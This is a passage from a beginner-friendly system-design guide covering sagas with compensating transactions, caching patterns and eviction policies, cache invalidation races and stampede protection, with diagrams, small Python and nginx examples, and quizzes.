> **In one line:** A saga is a big job split into small steps, where every step has an "undo" step, so if something fails halfway you undo the finished steps in reverse order.

**🏠 Real-life analogy:** You're planning a trip. You book a flight, then a hotel, then try to rent a car, but no cars are left. You can't "un-happen" the flight booking like a database rollback, but you *can* cancel it. So you cancel the hotel, then cancel the flight, and get refunds. Each booking had a matching cancellation. That is exactly a saga.

**❓ What problem does it solve?**
In microservices, the flight, hotel and car services each own their own database. You can't wrap all three in one ACID transaction, and 2PC (#36) would lock rows across services and block if the coordinator dies. Without a saga:
- A car failure leaves the customer with a flight and a hotel they didn't want, and they are charged for both.
- Engineers fix half-finished bookings by hand from logs.

A saga gives you **"all or nothing" at the business level**, without a global lock.

**⚙️ How it works:**
1. A saga is a **sequence of local transactions**. Each step commits in its own service's database right away (`BookFlight` commits in the flight database).
2. Every step has a **compensating action**: a new transaction that semantically undoes it (`CancelFlight`, `RefundPayment`). It doesn't erase history; it adds a "reverse" entry, the way a refund appears on your bank statement next to the charge.
3. If step N fails, the saga runs the compensations for steps N-1, ..., 1 **in reverse order**.
4. Some actions can't be undone (an email was sent, a package shipped). Put them **last**, or compensate with a different action ("Sorry, your trip was cancelled" email).

Helpful vocabulary (from Chris Richardson's *Microservices Patterns*):
- **Compensatable steps:** can be undone (book hotel).
- **Pivot step:** the point of no return; once it succeeds, the saga must finish (for example, charging the card and issuing tickets).
- **Retriable steps:** after the pivot, steps that are guaranteed to succeed eventually if retried (send confirmation email).

The idea is old: Hector Garcia-Molina and Kenneth Salem described "Sagas" in a 1987 database paper about long-lived transactions.

**Travel booking with an orchestrator, where the car step fails:**

```mermaid
sequenceDiagram
    participant O as TripOrchestrator
    participant F as FlightService
    participant H as HotelService
    participant R as CarService
    O->>F: BookFlight
    F-->>O: booked F-123
    O->>H: BookHotel
    H-->>O: booked H-456
    O->>R: RentCar
    R--xO: FAILED - no cars left
    Note over O: Compensate in reverse order
    O->>H: CancelHotel H-456
    H-->>O: cancelled
    O->>F: CancelFlight F-123
    F-->>O: cancelled and refunded
    Note over O: Saga finished as CANCELLED
```

**Two ways to coordinate a saga:**
- **Orchestration:** a central orchestrator (above) tells each service what to do and remembers where it is. The whole flow lives in one place.
- **Choreography:** no central brain. Each service listens for events and reacts. A failure event triggers the compensations up the chain.

```mermaid
flowchart LR
    Trip["Trip Service"] -->|"TripRequested"| Flight["Flight Service"]
    Flight -->|"FlightBooked"| Hotel["Hotel Service"]
    Hotel -->|"HotelBooked"| Car["Car Service"]
    Car -.->|"CarRentalFailed"| Hotel
    Hotel -.->|"HotelCancelled"| Flight
    Flight -.->|"FlightCancelled"| Trip
```

Solid arrows are the happy path; dotted arrows are the compensation path.

**💻 Example:** A tiny orchestrator sketch in Python. Real systems persist each step (so the saga resumes after a crash) and use a workflow engine, but the core logic looks like this:

```python
class Step:
    def __init__(self, name, action, compensate):
        self.name, self.action, self.compensate = name, action, compensate

def run_saga(trip_id, steps, log):
    completed = []
    for step in steps:
        try:
            # idempotency key = trip id + step name, so a retry never double-books
            step.action(trip_id, idempotency_key=f"{trip_id}-{step.name}")
            log.save(trip_id, step.name, "DONE")          # survive a crash
            completed.append(step)
        except Exception as err:
            log.save(trip_id, step.name, f"FAILED: {err}")
            for done in reversed(completed):              # undo in reverse order
                retry_until_success(done.compensate, trip_id)   # must not give up
                log.save(trip_id, done.name, "COMPENSATED")
            return "CANCELLED"
    return "CONFIRMED"

steps = [
    Step("flight", book_flight, cancel_flight),
    Step("hotel", book_hotel, cancel_hotel),
    Step("car", rent_car, cancel_car),
]
print(run_saga("trip-123", steps, saga_log))   # CANCELLED if the car step fails
```

**Tools that run sagas for you** (they store progress durably, retry with backoff, and handle timeouts):
- **Temporal:** you write the workflow as normal code; it was created by the engineers behind Uber's Cadence.
- **AWS Step Functions:** a state machine described in JSON, with `Catch` blocks that route failures to compensation steps.
- **Camunda:** BPMN (business process diagrams) that actually execute.
- Also: Netflix Conductor, Azure Durable Functions.

**🌍 Real-world usage:** Sagas are the standard way to handle order checkout, travel booking, money movement and ride/food delivery flows in microservice architectures. Uber built Cadence to orchestrate long-running workflows, and Temporal grew out of it. AWS publishes reference architectures for sagas with Step Functions. Payment companies typically model refunds and reversals as separate, recorded transactions, which is exactly the compensation idea.

**⚖️ Trade-offs:**

| | Choreography | Orchestration |
|---|---|---|
| How | Services react to each other's events | A central orchestrator sends commands |
| Good when | 2-4 simple steps | Many steps, branching, timeouts |
| Pros | No central component; very loosely coupled | Flow is visible in one place; easier to test, monitor and change |
| Cons | Hard to see the whole flow; risk of cyclic event chains | Orchestrator is extra infrastructure and can become a "god service" |

**Pitfalls to design for:**
- **No isolation (the "I" in ACID is missing):** other users can see in-between states. Someone might see "1 room left" become "0 left" because of a booking that is about to be compensated. Sagas are **ACD**, not ACID.
- **Semantic locks:** a common fix is to mark records as in progress, like `status = PENDING`, so other requests know the data isn't final and can wait, warn, or refuse.
- **Compensations must be idempotent and retryable:** a compensation can be delivered twice (cancel twice must not refund twice) and must *eventually succeed*. If a compensation truly can't succeed, it needs a human (alert plus a manual queue).
- **Order your steps smartly:** do the steps most likely to fail early, and the irreversible ones last.
- **Timeouts:** "no reply" is not "failed." Check the status before compensating, or the car might actually be booked.

**⚠️ Common mistakes:**
- Forgetting to write the compensation for a step, so failures leave orphaned bookings or charges.
- Assuming a compensation is a perfect undo. Sent emails, shipped parcels and partner fees can't be un-done; plan a business-level fix.
- Keeping saga state only in memory, so an orchestrator restart forgets which steps finished.
- Not exposing the in-progress state to users ("Booking in progress...") and showing confusing results instead.
- Building a huge choreography that nobody can trace. Switch to orchestration when the flow grows.

**🎯 Remember:** A saga = local transactions + compensating actions, run forward until success or backward on failure. You trade isolation for availability, so use semantic locks and make every step and compensation idempotent.

**🔗 See also:** [#36 Distributed Transactions](#36-distributed-transactions), [#33 Event-Driven Architecture](#33-event-driven-architecture), [#26 Retries](#26-retries), [#29 Idempotency](#29-idempotency)

---

### 🧠 Part 5 Quiz

**Q1. Your queue promises "at-least-once delivery." What does that mean for the code you write, and how do you get "effectively once" behavior?**
<details><summary>Show answer</summary>

Every message will arrive, but some may arrive more than once (for example, when an ack is lost or a worker crashes after doing the work but before deleting the message). So consumers must be idempotent: store each processed message or event ID (or use a natural unique key like `order_id`) and skip duplicates. At-least-once delivery plus idempotent processing equals "effectively once."

</details>

**Q2. Queue vs Pub/Sub: when an order is placed, the payment, email and analytics services all need to know. Which do you use and why?**
<details><summary>Show answer</summary>

Pub/Sub, because each message must reach *every* interested service, while a queue gives each message to only one consumer. A common design is fan-out: publish `OrderPlaced` once to a topic (SNS, Kafka, Google Pub/Sub), and give each service its own subscription or queue so it can process at its own pace, with competing workers inside each service.

</details>

**Q3. At 3 AM an alarm says your orders DLQ has 2,000 messages. What do you do?**
<details><summary>Show answer</summary>

Inspect a sample of messages and the consumer logs to find the cause: bad data, a new bug from a recent deploy, or a downstream outage. Fix the cause first (roll back or patch, correct the data, or wait for the dependency to recover). Then redrive the messages to the main queue, ideally slowly, and confirm the DLQ drains without messages bouncing back. Never just purge the DLQ: each message is a real customer action.

</details>

**Q4. Your "send daily summary email" crontab runs on all 4 web servers, and customers get 4 emails a day. How do you fix it properly?**
<details><summary>Show answer</summary>

Make sure only one instance runs each scheduled run: move it to a single scheduler (Kubernetes CronJob, EventBridge Scheduler), or keep it on all servers but take a distributed lock or use leader election (for example Redis `SET key NX EX` with a key per day). Also make the job idempotent (record "summary sent for 2026-10-27" per user) so a retry or overlap cannot double-send, and add heartbeat monitoring to catch missed runs.

</details>

**Q5. 2PC vs Saga: why do microservices usually prefer sagas, and what do you give up?**
<details><summary>Show answer</summary>

2PC gives true all-or-nothing, but it holds locks across the network, needs every participant to support it, and blocks everyone if the coordinator crashes after the votes. A saga commits each step locally and undoes failures with compensating actions, so it stays available and works across any service. You give up isolation (others can see in-between states) and must write idempotent, retryable compensations, often with semantic locks like `status = PENDING`. Pair sagas with the transactional outbox so each step's events are published reliably.

</details>


## Part 6 — Caching

Caching is the single most common trick for making systems fast and cheap. Almost every page you load passes through several caches: in your browser, at a CDN near your city, and in memory next to the database. Used well, a cache can absorb the vast majority of reads so your database can relax. Used badly, it shows users wrong prices, leaks private data, or melts your database when it expires. This part teaches both sides.

```mermaid
flowchart LR
    Caching["Caching<br/>(topic 38)"] --> Where["Where caches live"]
    Caching --> Patterns["Read and write patterns"]
    Caching --> Evict["Eviction policies"]
    Caching --> Inval["Cache Invalidation<br/>(topic 39)"]
    Inval --> Races["Races and stale data"]
    Inval --> Stampede["Stampedes"]
    Inval --> Layers["CDN, Redis and DB consistency"]
```

---

### 38. Caching

> **In one line:** A cache is a small, super-fast storage spot that keeps copies of things you use often, so you don't have to fetch them from the slow, far-away place every time.

**🏠 Real-life analogy:** The grocery store has everything, but it is 20 minutes away. Your fridge is tiny, but it is three steps away. So you keep the things you use most (milk, eggs) in the fridge. When the milk passes its date, you throw it out (that is **expiry**). When the fridge is full and you buy something new, you throw out whatever you haven't touched in ages (that is **eviction**). And if the store changes its recipe, the old jar in your fridge is now out of date (that is **stale data**).

**❓ What problem does it solve?**
Getting data from a database or another service is slow compared with reading from memory. Here are rough numbers from the famous "Latency Numbers Every Programmer Should Know" list:

| Getting data from... | Rough time |
|---|---|
| Main memory (RAM) on the same machine | ~100 nanoseconds |
| A round trip inside one data center (for example, to Redis) | ~0.5 milliseconds |
| A disk seek on a spinning hard drive | ~10 milliseconds |
| A network packet California to the Netherlands and back | ~150 milliseconds |

Now imagine your home page runs the same "top 20 products" query 5,000 times per second. Without a cache:
- Every visitor waits for the full database query, so pages feel slow.
- The database does the same work over and over, so you buy bigger and more expensive database servers.
- One very popular item (a celebrity's profile, a viral product) becomes a **hot key** that overloads one database server.
- When traffic spikes, the database falls over and takes the whole site with it.

A cache serves repeat requests from memory, so most of them never reach the database.

**⚙️ How it works:**

Basic vocabulary:
- **Key:** the name you look things up by, for example `product:42`.
- **Cache hit:** the data is in the cache, so it's fast. **Cache miss:** it isn't, so you go to the slow source.
- **TTL (time to live):** how long an entry may stay before it expires, for example 300 seconds.
- **Eviction:** removing entries to make room when the cache is full.
- **Hit ratio:** `hits / (hits + misses)`. If 950 of 1,000 requests are hits, the hit ratio is 95% and only 50 requests reach the database. Going from 90% to 99% cuts database reads 10x (from 100 to 10 per 1,000 requests). In Redis, `INFO stats` shows `keyspace_hits` and `keyspace_misses`.

**Where caches live** (from closest to the user to closest to the data):

```mermaid
flowchart LR
    User["User"] --> Browser["Browser cache<br/>(on the device)"]
    Browser -->|"miss"| CDN["CDN edge<br/>(near the user's city)"]
    CDN -->|"miss"| Proxy["Reverse proxy cache<br/>(nginx, Varnish)"]
    Proxy -->|"miss"| App["App server<br/>in-memory cache"]
    App -->|"miss"| Dist["Distributed cache<br/>(Redis, Memcached)"]
    Dist -->|"miss"| DBNode[("Database<br/>with buffer pool in RAM")]
```

| Layer | Examples | Typically stores | Who controls it |
|---|---|---|---|
| Browser | Browser HTTP cache | Images, CSS, JS, some API responses | `Cache-Control` headers you send |
| CDN | Cloudflare, Akamai, Fastly, Amazon CloudFront | Static files, sometimes whole pages | Headers plus CDN rules and purge APIs |
| Reverse proxy | nginx, Varnish | Full HTTP responses | Proxy configuration |
| App in-memory | A dictionary, `functools.lru_cache`, Caffeine (Java) | Config, small hot lookups | Your code (separate copy per server!) |
| Distributed cache | Redis, Memcached | Sessions, query results, page fragments | Your code (shared by all servers) |
| DB buffer pool | PostgreSQL `shared_buffers`, MySQL InnoDB buffer pool | Recently used data pages | The database itself |

**Read and write patterns:**

1. **Cache-aside (lazy loading):** the *app* checks the cache. On a miss, the app reads the database and stores the result in the cache. This is the most common pattern, because only data that someone actually asks for gets cached.
2. **Read-through:** the app only talks to the cache; on a miss, the *cache itself* loads from the database (through a loader function or plugin). Same idea as cache-aside, but the logic lives in the cache layer. Amazon DynamoDB Accelerator (DAX) works this way.
3. **Write-through:** every write goes to the cache *and* the database synchronously, before the request finishes. The cache is always fresh, but writes are slower.
4. **Write-behind (write-back):** writes go to the cache only; the cache writes them to the database *later*, often in batches. Very fast writes, but if the cache dies before flushing, those writes are **lost**.
5. **Write-around:** writes go straight to the database and skip the cache. The cache is filled later by reads (usually combined with cache-aside). Good for data that is written a lot but read rarely.

Cache-aside, step by step:

```mermaid
sequenceDiagram
    participant A as App
    participant R as Redis
    participant D as Database
    A->>R: GET product 42
    alt Cache hit
        R-->>A: product data (fast)
    else Cache miss
        R-->>A: nothing
        A->>D: SELECT product 42
        D-->>A: product data
        A->>R: SET product 42 with TTL 300s
    end
```

The three write patterns side by side:

```mermaid
flowchart TD
    subgraph WThrough["Write-through"]
        App1["App"] -->|"write"| Cache1["Cache"]
        Cache1 -->|"write now, synchronously"| DB1[("DB")]
    end
    subgraph WBehind["Write-behind"]
        App2["App"] -->|"write"| Cache2["Cache"]
        Cache2 -.->|"later, in batches"| DB2[("DB")]
    end
    subgraph WAround["Write-around"]
        App3["App"] -->|"write"| DB3[("DB")]
        DB3 -.->|"filled later by reads"| Cache3["Cache"]
    end
```

| Pattern | Read path | Write path | Pros | Cons | Use when |
|---|---|---|---|---|---|
| Cache-aside | App checks cache, loads DB on miss | App writes DB, then deletes key | Simple; caches only what's used; cache down means slower, not broken | First read is a miss; app code handles it | Default choice for most apps |
| Read-through | Cache loads DB on miss | (usually paired with write-through) | Cleaner app code | Needs a cache that supports loaders | Libraries or services with loader support |
| Write-through | Always fresh in cache | Cache and DB together | Reads never stale after your own writes | Slower writes; caches data nobody reads | Read-heavy data that must be fresh |
| Write-behind | From cache | Cache now, DB later | Fastest writes; batches DB work | Data loss if the cache crashes; complex | Counters, likes, metrics where tiny loss is OK |
| Write-around | Cache-aside on read | DB only | Cache not flooded by one-time writes | Recently written data misses at first | Logs, bulk imports, write-heavy data |

**Eviction policies** (what to throw out when the cache is full):

| Policy | Throws out... | Good for | Watch out |
|---|---|---|---|
| LRU (Least Recently Used) | The item not used for the longest time | Most workloads (the default choice) | One big scan can push out all your hot items |
| LFU (Least Frequently Used) | The item used the fewest times | Stable popularity (top products) | Old favorites may stick around too long |
| FIFO (First In, First Out) | The oldest item added | Very simple caches | Ignores how popular an item is |
| TTL-based | Items whose time is up (or the ones closest to expiring) | Data that goes stale on a schedule | TTL alone doesn't cap memory |
| Random | A random item | Very cheap to run | Unpredictable |

Redis lets you choose with `maxmemory-policy`, for example `allkeys-lru`, `allkeys-lfu`, `volatile-ttl` or `noeviction` (the default, which makes writes fail when memory is full). Redis approximates LRU and LFU by sampling a few keys instead of tracking every key perfectly, which saves memory.

**What to cache, and what not to:**

| Good to cache | Think twice |
|---|---|
| Data read far more often than it changes (product pages, profiles, config) | Data that must be perfectly up to date (account balances, stock at checkout) |
| Results that are expensive to compute (feeds, recommendations, reports) | Data that is unique per request and never repeated |
| Static files (images, CSS, JS) | Very large objects that crowd out everything else |
| Session data and rate-limit counters | Personal data in a shared key, which risks showing one user's data to another |

**💻 Example:** Cache-aside with Redis in Python (`redis-py`). Reads fill the cache; writes update the database and then delete the key.

```python
import json
import redis

r = redis.Redis(host="localhost", port=6379)
TTL_SECONDS = 300   # safety net: even if we forget to invalidate, data is at most 5 minutes old

def get_product(db, product_id):
    key = f"product:{product_id}"
    cached = r.get(key)
    if cached is not None:                 # cache hit
        return json.loads(cached)
    product = db.fetch_product(product_id) # cache miss: go to the database
    if product is not None:
        r.set(key, json.dumps(product), ex=TTL_SECONDS)
    return product

def update_product_price(db, product_id, new_price):
    db.update_price(product_id, new_price) # 1. write the source of truth first
    r.delete(f"product:{product_id}")      # 2. then remove the old copy
```

An in-process LRU cache, two ways: build a tiny one yourself, or use Python's built-in decorator.

```python
from collections import OrderedDict
from functools import lru_cache

class LRUCache:
    def __init__(self, capacity):
        self.capacity = capacity
        self.items = OrderedDict()          # remembers order of use

    def get(self, key):
        if key not in self.items:
            return None
        self.items.move_to_end(key)         # mark as most recently used
        return self.items[key]

    def put(self, key, value):
        self.items[key] = value
        self.items.move_to_end(key)
        if len(self.items) > self.capacity:
            self.items.popitem(last=False)  # evict the least recently used

@lru_cache(maxsize=1024)                    # built-in: caches results by arguments
def country_name(code):
    return slow_lookup(code)                # runs only on a cache miss
```

**Redis vs Memcached:**

| | Redis | Memcached |
|---|---|---|
| Data types | Strings, hashes, lists, sets, sorted sets, streams and more | Plain strings or bytes only |
| Persistence | Optional (RDB snapshots, AOF log) | None: memory only |
| Replication and high availability | Built in (replicas, Sentinel, Redis Cluster) | None built in; clients spread keys across servers |
| Threads | Commands run mostly on one thread (optional I/O threads) | Multi-threaded |
| Eviction | Configurable (`allkeys-lru`, `allkeys-lfu`, `volatile-ttl`, ...) | LRU |
| Extras | Pub/Sub, Lua scripts, transactions, geo, per-key TTL | Deliberately minimal |
| Best for | Caching plus sessions, leaderboards, rate limits, queues | A simple, very large, multi-threaded key-value cache |

A note on licensing: in 2024 Redis switched to source-available licenses, and the Linux Foundation started **Valkey**, an open-source fork that many cloud providers now offer. Redis 8 later added the AGPL open-source license as an option. The concepts in this section apply to both.

**🌍 Real-world usage:** Facebook's 2013 NSDI paper "Scaling Memcache at Facebook" describes what it calls the largest memcached installation in the world, sitting in front of MySQL. Netflix built EVCache, an open-source caching layer on top of memcached, to serve data quickly across regions. Stack Overflow is well known for running Redis as a cache in front of SQL Server. Twitter has described keeping home timelines in Redis. CDNs like Cloudflare, Akamai and Fastly cache images, scripts and pages at hundreds of locations worldwide. Managed caches include AWS ElastiCache, Google Cloud Memorystore and Azure Cache for Redis.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Much faster reads (memory instead of disk or network trips) | Stale data: the copy can disagree with the source |
| Takes huge load off databases and services | Another system to run, size and monitor |
| Lower cost: fewer and smaller database servers | Cold start: an empty cache after a restart sends everything to the DB |
| Absorbs traffic spikes on popular content | New failure modes: stampedes, hot keys, memory pressure |

**⚠️ Common mistakes:**
- Treating the cache as the source of truth. A cache can lose everything at any time; the database must still have the data.
- Forgetting TTLs, so a missed invalidation leaves stale data forever.
- Keys that don't include everything that changes the result (user, language, currency). That can show one user's private page to another user.
- Caching errors or "not found" results for a long time, so a temporary failure becomes a long outage. (Caching "not found" briefly is fine and stops repeated lookups of missing items.)
- Not planning for the cache being down. If the database can't survive without the cache, a cache restart becomes a full outage.

**🎯 Remember:** Cache data that is read often and changes rarely. Cache-aside plus a TTL is the safe default. Measure your hit ratio, and always remember the cache is a copy, not the truth.

**🔗 See also:** [#39 Cache Invalidation](#39-cache-invalidation), [#31 Message Queues](#31-message-queues), [#33 Event-Driven Architecture](#33-event-driven-architecture)

---

### 39. Cache Invalidation

> **In one line:** Cache invalidation means deciding when to throw away or update a cached copy, so people don't see old, wrong data.

**🏠 Real-life analogy:** A café writes "Today's special: lemon cake" on a chalkboard by the door. At 2 PM the cake sells out, but nobody wipes the board. All afternoon, customers walk in wanting lemon cake and leave disappointed. The kitchen (the database) knew the truth, but the board (the cache) didn't. Someone has to be responsible for wiping the board at the right moment, and if two staff members are updating it at the same time, they can easily get it wrong.

**❓ What problem does it solve?**
There's a famous programmer joke attributed to Phil Karlton, a Netscape engineer: *"There are only two hard things in Computer Science: cache invalidation and naming things."* It's funny because it's true. Once you copy data into a cache, you have two versions, and they can disagree. Without good invalidation:
- A shop changes a price from 10 to 12 dollars, but the product page still shows 10 dollars for an hour.
- A user changes their profile photo, refreshes, and sees the old one, so they think the upload failed.
- A deleted post or a revoked permission stays visible because it's still cached.
- When a very popular key expires, thousands of requests rush to the database at once and knock it over.

**⚙️ How it works:**

**Invalidation strategies:**

| Strategy | How it works | Pros | Cons |
|---|---|---|---|
| TTL expiry | Each entry expires after N seconds | Simple; fixes itself automatically | Data can be stale for up to N seconds |
| Delete-on-write | After updating the DB, delete the cache key; the next read reloads it | Fresh on the next read; deletes are safe to repeat | Race conditions (below); must know every key affected |
| Write-through update | After updating the DB, write the new value into the cache | Cache stays warm | Two writers can set values in the wrong order |
| Event or CDC-driven | Read the DB's change log (for example Debezium to Kafka) and delete the affected keys | Catches *every* write, even from scripts and other services | More infrastructure; a small delay |
| Versioned keys | Put a version in the key (`user:42:v8`, `app.3f9a2c.js`) and bump it on change | Old versions are never served; no delete needed | Old versions take up memory until evicted; you must know the current version |

Why do many teams *delete* instead of *update* on write? Deletes are idempotent (deleting twice is harmless), and if two writers race, the worst outcome is an extra cache miss rather than the wrong value stored. Facebook's memcache paper made the same choice.

**The classic race condition** (even with "update DB, then delete cache"):

```mermaid
sequenceDiagram
    participant R as Reader
    participant W as Writer
    participant C as Cache
    participant D as Database
    R->>C: GET price
    C-->>R: miss
    R->>D: SELECT price
    D-->>R: 10 dollars (old value)
    W->>D: UPDATE price to 12
    W->>C: DELETE price
    R->>C: SET price = 10
    Note over C,D: Cache says 10 but the DB says 12. Stale until the TTL expires.
```

The reader was slow: it read the old value, and by the time it wrote that value to the cache, the writer had already updated and deleted. The stale value now sits in the cache.

**Fixes for the race:**
1. **Delete *after* the DB write, never before.** If you delete first, any reader between your delete and your commit reloads the old value, which is a much bigger window.
2. **Short TTLs as a safety net.** Even if a race happens, the wrong value lives for at most the TTL.
3. **Leases** (from Facebook's "Scaling Memcache at Facebook," NSDI 2013): on a miss, memcache hands the reader a **lease token**. The reader can only `SET` the value if it presents a still-valid token. A `DELETE` for that key cancels the token, so the slow reader's stale `SET` is rejected.
4. **Delayed double delete:** delete right after the write, then delete again a second or so later to clean up any stale value a slow reader slipped in.
5. **Versioned values:** store a version number with the value and only overwrite if the new version is higher (with a small Lua script in Redis, for example).

```mermaid
sequenceDiagram
    participant R as Reader
    participant W as Writer
    participant C as Memcache
    participant D as Database
    R->>C: GET price
    C-->>R: miss plus lease token T1
    R->>D: SELECT price
    D-->>R: 10 (old value)
    W->>D: UPDATE price to 12
    W->>C: DELETE price
    Note over C: The delete cancels lease T1
    R->>C: SET price 10 with token T1
    C-->>R: rejected, lease no longer valid
    Note over R,C: The next reader misses and loads 12 from the DB
```

**Cache stampede (thundering herd):** a very popular key (say, the home page feed) expires at 09:00:00. In that same second, 10,000 requests miss and all run the same expensive query against the database. The database slows down, requests time out, clients retry, and things get worse. Fixes:
- **Request coalescing (single-flight):** if 1,000 requests miss the same key on one server, only one actually fetches it and the others wait for that result. (Go has a well-known `singleflight` package for this.)
- **A lock across servers:** use `SET lock:key NX EX 10` in Redis so only one server rebuilds; the others wait briefly or get the old value.
- **Probabilistic early expiration:** each request has a small, growing chance of refreshing the key *before* it expires, so one lucky request refreshes it early while everyone else still gets hits. The "XFetch" algorithm (Vattani, Chierichetti and Lowenstein, VLDB 2015) is the well-known version.
- **Serve stale while revalidating:** keep returning the slightly old value while one background job refreshes it. HTTP has this built in (`stale-while-revalidate`), and so do nginx and most CDNs.
- **TTL jitter:** add a random few seconds or minutes to TTLs so thousands of keys don't all expire at the same moment.
- Facebook's leases also handle this: memcache hands out a lease token for a key only once every 10 seconds, and other clients are told to wait briefly and retry, by which time the value is usually back in the cache.

```mermaid
flowchart LR
    Crowd["10,000 requests<br/>for home_feed"] --> Check{"Key expired?"}
    Check -->|"no protection"| DBHot[("Database<br/>10,000 identical queries")]
    Check -->|"single-flight or lock"| Leader["1 request rebuilds"]
    Leader --> DBCalm[("Database<br/>1 query")]
    Leader -->|"fills the cache"| Waiters["Everyone else waits briefly<br/>or gets the stale copy"]
```

**Consistency between CDN, Redis and DB:** when data lives in several cache layers, invalidate **from the inside out**: commit to the database first, then delete the Redis key, then purge the CDN. If you purge the CDN first, the next visitor's request goes through the CDN to your app, which reads the *still-old* Redis value, and the CDN happily caches that old value again for its full TTL. Also remember that **you cannot purge a user's browser cache**. So use short `max-age` values for HTML and API responses, and use long cache times only for versioned file names (like `app.3f9a2c.js`) that never change.

```mermaid
flowchart LR
    Change["Price changes"] --> StepDB[("Step 1<br/>commit to the DB")]
    StepDB --> StepRedis["Step 2<br/>delete the Redis key"]
    StepRedis --> StepCDN["Step 3<br/>purge the CDN URL or tag"]
    StepCDN --> StepBrowser["Browsers refresh after<br/>their short max-age"]
```

**💻 Example:** Stampede protection in Python: a Redis lock so only one caller rebuilds, plus TTL jitter.

```python
import json, random, time
import redis

r = redis.Redis()

def get_home_feed(db):
    key = "home_feed:v1"
    cached = r.get(key)
    if cached is not None:
        return json.loads(cached)
    # Only ONE caller gets the lock. It expires by itself if that caller crashes.
    if r.set(key + ":lock", "1", nx=True, ex=10):
        try:
            feed = db.build_home_feed()                 # the slow, expensive query
            ttl = 300 + random.randint(0, 60)           # jitter: keys don't all expire together
            r.set(key, json.dumps(feed), ex=ttl)
            return feed
        finally:
            r.delete(key + ":lock")
    for _ in range(20):                                 # everyone else waits up to ~1s
        time.sleep(0.05)
        cached = r.get(key)
        if cached is not None:
            return json.loads(cached)
    return db.build_home_feed()                         # last resort (or return a default)
```

The XFetch idea in one function: refresh early with a probability that grows as expiry approaches and as the rebuild gets slower.

```python
import math, random, time

def should_refresh_early(expires_at, rebuild_seconds, beta=1.0):
    # log(random) is negative, so this adds a random "head start" before expiry
    return time.time() - rebuild_seconds * beta * math.log(random.random()) >= expires_at
```

Serving stale content safely at the reverse proxy (nginx) and via HTTP headers:

```nginx
proxy_cache_path /var/cache/nginx keys_zone=pages:50m max_size=1g inactive=10m;

server {
    location / {
        proxy_pass http://app_servers;
        proxy_cache pages;
        proxy_cache_valid 200 60s;                      # cache good responses for 60 seconds
        proxy_cache_lock on;                            # on a miss, only 1 request goes to the app
        proxy_cache_use_stale updating error timeout;   # serve the old copy while refreshing or if the app fails
        proxy_cache_background_update on;               # refresh in the background
    }
}
```

```http
Cache-Control: public, max-age=60, stale-while-revalidate=30, stale-if-error=86400
```

For versioned static files that never change, cache "forever":

```http
Cache-Control: public, max-age=31536000, immutable
```

**🌍 Real-world usage:** Facebook's memcache paper describes the whole toolkit: look-aside caching, delete-on-write, leases to stop stale sets and thundering herds, and daemons called **mcsqueal** that read MySQL's commit log and broadcast deletes to cache clusters (CDC-driven invalidation). Wikipedia's software sends purge messages to its edge caches whenever a page is edited. Fastly's surrogate keys and Cloudflare's purge API let sites purge every cached page that mentions a product with one call, and Amazon CloudFront supports invalidations by path (for example `/products/*`). Front-end build tools like webpack and Vite put content hashes in file names, so a new deploy simply uses new URLs instead of invalidating anything.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| TTL only | Data where a little staleness is fine (news lists, counts) | Stale for up to the TTL; short TTLs lower the hit ratio |
| Delete-on-write + TTL | Most app data (the usual default) | Small race windows; must find every affected key |
| CDC-driven invalidation | Many services or scripts write the same tables | Extra pipeline to run; slight delay |
| Versioned keys or URLs | Static assets, immutable snapshots | Memory spent on old versions; must track the current version |
| Leases or locks | Hot keys, expensive rebuilds, strict freshness | More complex client logic |

**⚠️ Common mistakes:**
- Deleting the cache *before* writing the database, which lets readers refill it with the old value.
- Relying only on delete-on-write with no TTL, so one missed delete means stale data forever.
- Giving thousands of keys the same TTL, so they all expire together and cause a stampede.
- Purging the CDN before Redis, so the CDN re-caches the old value.
- Long `max-age` on HTML or API responses. Browser caches can't be purged, so users stay stuck on old content until it expires.

**🎯 Remember:** Invalidate from the inside out (DB, then Redis, then CDN), delete after writing, keep a TTL as a safety net, and protect hot keys from stampedes with single-flight, locks, early refresh, or serve-stale.

**🔗 See also:** [#38 Caching](#38-caching), [#33 Event-Driven Architecture](#33-event-driven-architecture), [#36 Distributed Transactions](#36-distributed-transactions)

---

### 🧠 Part 6 Quiz

**Q1. Cache-aside vs write-through: what is the difference, and which would you choose by default?**
<details><summary>Show answer</summary>

In cache-aside, the app reads the cache and, on a miss, loads from the database and fills the cache; on writes it updates the database and deletes the key. In write-through, every write updates the cache and the database together, so the cache is always fresh but writes are slower and you may cache data nobody reads. Cache-aside with a TTL is the usual default because it is simple and only caches what is actually requested.

</details>

**Q2. Your cache hit ratio is 90%. A teammate says raising it to 99% "only helps a little." Are they right?**
<details><summary>Show answer</summary>

No. At 90%, 100 of every 1,000 requests reach the database. At 99%, only 10 do, which is a 10x drop in database load. The misses are what hurt, so small hit-ratio gains at the high end matter a lot.

</details>

**Q3. You update the DB and then delete the cache key, but sometimes the cache still ends up with the old value. How can that happen, and how do you fix it?**
<details><summary>Show answer</summary>

A slow reader missed the cache and read the old value from the DB. Then the writer updated the DB and deleted the key. Then the reader wrote its old value into the cache. Fixes: always keep a TTL as a safety net, use leases (as Facebook's memcache does) so a delete cancels the slow reader's right to set, use a delayed second delete, or store versions and only overwrite with newer ones.

</details>

**Q4. A hot key with your home page data expires every 5 minutes, and each time the database CPU spikes to 100%. What would you do?**
<details><summary>Show answer</summary>

This is a cache stampede. Let only one request rebuild the value (single-flight in each server plus a Redis `SET NX` lock across servers), serve the stale value while it rebuilds, refresh early with probabilistic early expiration (XFetch), and add TTL jitter. For a key this hot, you can also refresh it in the background on a schedule so it never expires during traffic.

</details>

**Q5. You changed a product's price. The DB is correct and you deleted the Redis key, but some users still see the old price for hours. Where do you look?**
<details><summary>Show answer</summary>

Look at the outer cache layers: the CDN and browsers. The page or API response was probably cached with a long `max-age`, or the CDN was purged *before* Redis and re-cached the old value. Purge the CDN after Redis (inside-out order), use short `max-age` (plus `stale-while-revalidate`) for HTML and API responses, and keep long cache times only for versioned file names, because browser caches can't be purged.

</details>


## Part 7 — Databases

Almost every app keeps its important stuff (users, orders, messages, payments) in a **database**: an organized, permanent store of data. When an app gets slow or falls over, the database is very often the reason. This part teaches you how databases find data fast, how to talk to them efficiently, how to copy and split them as you grow, and how to change them safely while the app keeps running.

**The 60-second basics:**

- A **table** is like one tab in a spreadsheet, for example `users`.
- A **row** is one record in that table (one user). A **column** is one field (the user's `email`).
- A **primary key** (PK) is a column whose value is unique for every row, usually `id`.
